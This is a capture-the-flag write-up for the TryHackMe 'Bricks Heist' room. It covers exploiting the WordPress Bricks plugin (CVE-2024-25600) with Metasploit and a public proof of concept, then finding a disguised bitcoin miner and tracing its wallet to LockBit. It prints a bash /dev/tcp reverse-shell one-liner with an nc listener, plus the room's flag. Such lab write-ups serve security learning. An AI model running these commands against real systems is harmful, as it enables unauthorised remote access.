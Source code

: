 # TryHackMe — Bricks Heist — Writeup

**Author:** `Rat5ak`
**Box:** TryHackMe - Bricks Heist

---

## TL;DR

* Found WordPress + Bricks 1.9.5 via service/enum.
* Used Metasploit to exploit Bricks and grabbed the first flag from the webroot. Meterpreter shell was shit for further work.
* Switched to a public PoC from GitHub (CVE-2024-25600) and got a proper reverse shell via `nc` + `bash -c 'exec bash -i &>/dev/tcp/10.4.81.150/666 <&1'`.
* Found a miner process masquerading around NetworkManager and a suspicious encoded string in `/lib/NetworkManager/inet.conf`.
* Decoded that long string in CyberChef (base64 + cleanup) and it produced a Bech32 BTC address: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`.
* Traced money flow to `32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM` and, via Google, linked it to LockBit.
* User/web flag: `THM{fl46_650c844110baced87e1606453b93f22a}`

---

## Recon

Step 1 — The noisy nmap:
I started with the usual aggressive scans to see everything:

```
nmap -A -p- -vv <target> -oA bricks-scan
```

Output showed a webserver running WordPress and the Bricks plugin — version 1.9.5 popped up from service banners / enumeration.

Step 2 — WordPress enumeration:
I ran a WordPress enumeration tool (the usual WP enum/WPScan style checks) to confirm plugin versions and surface the vulnerable Bricks instance. That confirmed Bricks 1.9.5 — bingo.

---

## Exploit — how I popped it

Step 3 — Metasploit for initial access:
I fired up `msfconsole`, used the Bricks exploit module and got a session. From that MSF session I grabbed the first flag sitting in the webroot:

```
cat /data/www/default/650c844110baced87e1606453b93f22a.txt
# THM{fl46_650c844110baced87e1606453b93f22a}
```

Step 4 — Meterpreter was annoying:
Meterpreter dropped, but it was awkward for post-exploitation (couldn’t spawn a clean interactive reverse shell that behaved). Metasploit’s shell was fucky and I couldn’t move on comfortably from it.

Step 5 — switch to public PoC + proper shell:
Found this PoC and README on GitHub and used it to get a normal shell:
`https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/README.md`

Then spun up a netcat listener locally and ran this from the box to get a usable reverse shell:

```bash
# on my machine
nc -lvnp 666

# on target (from a proper shell)
bash -c 'exec bash -i &>/dev/tcp/10.4.81.150/666 <&1'
```

That gave me a proper interactive shell (no bs meterpreter weirdness).

---

## Post-exploitation — what I found

Step 6 — suspicious processes:
From the shell I started poking around and noticed processes oddly named around NetworkManager:

```
ps aux | egrep -i 'nm-inet-dialog|nm-inet' | grep -v grep
# showed /lib/NetworkManager/nm-inet-dialog running (multiple PIDs)
```

Step 7 — look at the NetworkManager bits:
I inspected `/lib/NetworkManager` and found `inet.conf`. It contained a long encoded-ish ID string and lots of logging lines that repeatedly printed `[*] Miner()` / `[*] Bitcoin Miner Thread Started` — clearly something mining.

```
/lib/NetworkManager/inet.conf
# contains a long encoded string and many "Miner()" log lines
```

Step 8 — decode the long string:
I copied that long encoded string (the blob in `inet.conf`) into CyberChef, used the magic/Auto-Decode and did a base64 decode + filtered non-alphabetic junk. The result produced a Bech32 BTC address:

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```
---

## Attribution

Step 9 — follow the money / google:
I took the decoded address and tracked transactions. One of the larger receivers in the flow was:

```
32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM
```

Googling that receiver (and related transaction patterns) returned hits linking it to LockBit activity. That was enough for me to say the miner / funds were associated with LockBit.

---

## Artifacts & important files

* User/web flag: `/data/www/default/650c844110baced87e1606453b93f22a.txt` → `THM{fl46_650c844110baced87e1606453b93f22a}`
* Encoded miner blob: `/lib/NetworkManager/inet.conf` (decoded in CyberChef → `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`)
* PoC used to get a usable shell: `https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/README.md`
* Reverse shell used: `bash -c 'exec bash -i &>/dev/tcp/10.4.81.150/666 <&1'`

---

## Flow summary 

1. nmap the box (no shame) → saw WordPress + Bricks 1.9.5.
2. WP enumeration to confirm the vulnerable plugin.
3. Exploit with Metasploit and get an initial session, pull the web/user flag.
4. Meterpreter shell is awkward — switch to a public PoC for CVE-2024-25600.
5. Launch `nc` listener and get a clean reverse shell with the `bash -c 'exec...'` line.
6. Inspect processes → noticed `nm-inet-dialog` / mining noise.
7. Open `/lib/NetworkManager/inet.conf`, copy the long encoded string, decode in CyberChef (base64 + cleanup) → get `bc1qyk79...`.
8. Trace funds → `32pTjxT...` → google → linked to LockBit.


